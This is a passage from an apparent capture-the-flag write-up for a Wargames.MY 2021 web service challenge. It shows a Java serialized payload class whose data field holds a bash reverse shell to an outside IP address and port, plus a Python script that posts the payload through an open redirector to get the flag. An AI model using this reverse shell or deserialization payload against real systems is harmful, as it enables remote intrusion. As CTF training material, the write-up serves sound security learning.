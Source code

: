 Here's how my `WargamesMsg` looks like:

```java
package my.wargames.springboot;

import java.io.Serializable;

public class WargamesMsg implements Serializable {
    private static final long serialVersionUID = 1234567L;

    private String data = "bash -i >& /dev/tcp/128.199.135.239/8888 0>&1";

    private String className = "my.wargames.springboot.Helper";

    private String methodName = "execOwnCommand";

    public WargamesMsg() {
    }

    public void rekt() {
    }

    public int hashCode() {
        return 4919;
    }
}
```

Finally, build and run the program to get my payload object.

```
javac Main.java my/wargames/springboot/WargamesMsg.java
java Main
```

And send it to the service.

```py
import requests

r = requests.post("http://wgmyws.wargames.my:50002/ws/unprotected/redirector?url=forward:/ws/object", data=open("payload.bin", "rb").read())
# r = requests.post("http://localhost:9191/ws/unprotected/redirector?url=forward:/ws/object", data=open("payload.bin", "rb").read())

print(r.text)

# wgmy{30a4c532348450e39330c663d93b702e}
```




[challenge]:{{site.baseurl}}/ctfs/wargamesmy-21/webservice/WGMYWS-1.0.0-DIST/WGMYWS-1.0.0-DIST.jar
[list]:{{site.baseurl}}/ctfs/wargamesmy-21/webservice/list.png
[packages]:{{site.baseurl}}/ctfs/wargamesmy-21/webservice/packages.png
[login]:{{site.baseurl}}/ctfs/wargamesmy-21/webservice/login.png
[redirect]:{{site.baseurl}}/ctfs/wargamesmy-21/webservice/redirect.png
[wargames]:{{site.baseurl}}/ctfs/wargamesmy-21/webservice/wargames.png